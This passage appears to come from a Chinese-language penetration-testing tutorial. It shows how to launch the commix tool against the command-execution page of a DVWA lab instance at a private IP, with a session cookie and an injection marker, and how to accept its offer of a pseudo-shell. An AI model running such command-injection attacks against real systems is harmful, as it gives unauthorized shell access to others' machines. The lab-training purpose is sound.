 1.  我们将使用以下命令启动 commix：

```
      commix --url "http://172.17.0.2/dvwa/vulnerabilities/exec/"       --cookie='security=low; PHPSESSID=b69r7n5b2m7mj0vhps39s4db64'       --data='ip=INJECT_HERE&Submit=Submit' -all

```

1.  commix 将检测 URL 是否可达，并获取所有可能的信息，然后询问你是否要打开伪终端 Shell，如下截图所示：![如何做...](img/image_07_039.jpg)

1.  如果输入*Y*，你会看到 Shell 提示，如下所示：![如何做...](img/image_07_040.jpg)

